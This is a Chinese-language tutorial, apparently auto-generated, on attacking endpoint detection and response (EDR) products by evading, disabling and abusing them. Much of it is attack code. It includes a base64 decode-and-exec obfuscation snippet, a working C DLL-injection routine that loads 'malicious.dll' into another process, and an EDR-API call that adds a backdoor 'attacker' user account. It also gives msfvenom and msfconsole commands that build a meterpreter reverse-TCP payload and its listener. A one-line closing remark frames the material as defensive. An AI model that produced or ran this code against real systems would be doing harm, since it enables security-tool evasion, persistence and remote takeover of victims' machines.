 # 终端检测与响应(EDR)的攻击技术

## 1. 技术原理解析

### 1.1 EDR 的工作原理
终端检测与响应（EDR）是一种安全解决方案，旨在通过实时监控和分析终端设备上的活动来检测和响应威胁。EDR 系统通常包括以下组件：

- **数据收集**：通过代理程序收集终端上的进程、文件、网络连接等数据。
- **行为分析**：利用机器学习、规则引擎等技术分析收集到的数据，识别异常行为。
- **威胁检测**：基于行为分析结果，检测潜在的恶意活动。
- **响应机制**：对检测到的威胁采取隔离、终止进程、删除文件等响应措施。

### 1.2 EDR 的常见攻击手法
攻击者通常会针对 EDR 系统的弱点进行攻击，常见的攻击手法包括：

- **绕过检测**：通过混淆、加密、多态等技术绕过 EDR 的检测机制。
- **禁用 EDR**：利用权限提升、进程注入等手段禁用或卸载 EDR 代理。
- **滥用 EDR 功能**：利用 EDR 的合法功能进行恶意操作，如利用 EDR 的 API 进行横向移动。

## 2. 攻击技术详解

### 2.1 绕过检测

#### 2.1.1 代码混淆
通过混淆代码，使恶意代码难以被 EDR 的静态分析引擎检测到。常见的混淆技术包括：

- **字符串加密**：将敏感字符串加密，运行时解密。
- **控制流混淆**：改变代码的控制流，增加分析难度。

**示例代码：**
```python
import base64

def decrypt(s):
    return base64.b64decode(s).decode()

encrypted_string = "bWFsaWNpb3VzIGNvZGU="
decrypted_string = decrypt(encrypted_string)
exec(decrypted_string)
```

#### 2.1.2 多态技术
通过动态生成代码或改变代码结构，使每次执行的代码都不同，从而绕过基于签名的检测。

**示例代码：**
```python
import random

def generate_polymorphic_code():
    code = "print('Hello, World!')"
    junk_code = "".join([chr(random.randint(65, 90)) for _ in range(10)])
    return junk_code + code

exec(generate_polymorphic_code())
```

### 2.2 禁用 EDR

#### 2.2.1 权限提升
通过利用系统漏洞或配置错误，提升权限以禁用或卸载 EDR 代理。

**示例命令：**
```bash
# 利用漏洞提权
./exploit --payload "systemctl stop edr-agent"
```

#### 2.2.2 进程注入
通过将恶意代码注入到合法进程中，绕过 EDR 的监控。

**示例代码：**
```c
#include <windows.h>

void inject_code(DWORD pid, const char* dll_path) {
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dll_path) + 1, MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(hProcess, pRemoteMemory, dll_path, strlen(dll_path) + 1, NULL);
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)LoadLibraryA, pRemoteMemory, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
    VirtualFreeEx(hProcess, pRemoteMemory, strlen(dll_path) + 1, MEM_RELEASE);
    CloseHandle(hProcess);
}

int main() {
    inject_code(1234, "C:\\malicious.dll");
    return 0;
}
```

### 2.3 滥用 EDR 功能

#### 2.3.1 利用 EDR API
通过调用 EDR 提供的 API 进行恶意操作，如横向移动、数据窃取等。

**示例代码：**
```python
import requests

def abuse_edr_api(api_url, command):
    headers = {"Authorization": "Bearer <token>"}
    data = {"command": command}
    response = requests.post(api_url, headers=headers, json=data)
    return response.json()

api_url = "https://edr-api.example.com/execute"
command = "net user attacker P@ssw0rd /add"
abuse_edr_api(api_url, command)
```

## 3. 攻击步骤与实验环境搭建

### 3.1 实验环境搭建

#### 3.1.1 硬件要求
- 一台运行 Windows 10 的物理机或虚拟机
- 一台运行 Linux 的物理机或虚拟机

#### 3.1.2 软件要求
- EDR 解决方案（如 CrowdStrike、Carbon Black）
- Python 3.x
- Metasploit Framework
- Cobalt Strike

#### 3.1.3 环境配置
1. 在 Windows 10 上安装 EDR 代理。
2. 在 Linux 上安装 Metasploit 和 Cobalt Strike。
3. 配置网络，确保 Windows 和 Linux 可以互相通信。

### 3.2 攻击步骤

#### 3.2.1 绕过检测
1. 在 Linux 上生成混淆的恶意代码。
2. 将恶意代码传输到 Windows 10。
3. 执行恶意代码，观察 EDR 是否检测到。

#### 3.2.2 禁用 EDR
1. 在 Linux 上利用 Metasploit 提权。
2. 通过提权后的权限停止 EDR 代理服务。
3. 验证 EDR 是否被禁用。

#### 3.2.3 滥用 EDR 功能
1. 在 Linux 上使用 Cobalt Strike 生成 payload。
2. 将 payload 传输到 Windows 10。
3. 通过 EDR API 执行 payload，观察效果。

## 4. 实际命令、代码与工具使用说明

### 4.1 代码混淆工具
- **工具名称**：PyInstaller
- **使用命令**：
  ```bash
  pyinstaller --onefile --noconsole malicious_script.py
  ```

### 4.2 进程注入工具
- **工具名称**：Metasploit
- **使用命令**：
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
  msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT <PORT>; run"
  ```

### 4.3 EDR API 滥用工具
- **工具名称**：Postman
- **使用步骤**：
  1. 打开 Postman，新建一个 POST 请求。
  2. 输入 EDR API 的 URL。
  3. 在 Headers 中添加 Authorization。
  4. 在 Body 中输入要执行的命令。
  5. 发送请求，查看响应。

## 结论
本文详细介绍了终端检测与响应（EDR）的常见攻击手法和利用方式，包括绕过检测、禁用 EDR 和滥用 EDR 功能。通过深入的技术原理解析、详细的攻击步骤和实验环境搭建指南，读者可以更好地理解和防御这些攻击。在实际操作中，建议结合多种防御措施，如行为分析、威胁情报等，以提高 EDR 的安全性和有效性。

---

*文档生成时间: 2025-03-17 10:07:14*
